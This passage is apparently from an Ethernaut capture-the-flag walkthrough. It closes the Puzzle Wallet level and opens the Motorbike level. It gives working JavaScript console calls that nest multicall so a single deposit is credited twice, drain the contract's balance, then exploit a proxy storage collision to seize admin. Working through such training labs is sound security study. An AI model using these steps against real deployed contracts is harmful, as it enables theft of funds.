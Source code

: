Here's our call _inception_

```
            multicall
                |
        ------------------
        |                |
    multicall        multicall
        |                |
     deposit          deposit
```

Get function call encodings:

```js
// deposit() method
depositData = await contract.methods["deposit()"].request().then((v) => v.data);

// multicall() method with param of deposit function call signature
multicallData = await contract.methods["multicall(bytes[])"]
  .request([depositData])
  .then((v) => v.data);
```

Now we call `multicall` which will call two `multicall`s and each of these two will call `deposit` once each. Send value of `0.001 eth` with transaction:

```js
await contract.multicall([multicallData, multicallData], {
  value: toWei("0.001"),
});
```

`player` balance now must be `0.001 eth * 2` i.e. `0.002 eth`. Which is equal to contract's total balance at this time.

Withdraw same amount by execute:

```js
await contract.execute(player, toWei("0.002"), 0x0);
```

By now, contract's balance must be zero. Verify:

```js
await getBalance(contract.address);
```

Finally we can call `setMaxBalance` to set `maxBalance` and as a consequence of storage collision, set admin to `player`:

```js
await contract.setMaxBalance(player);
```

### Level 25. Motorbike

**Goal**: `player` has to make the proxy (`Motorbike`) unusable by destroying the implementation/logic contract (`Engine`) through `selfdestruct`.
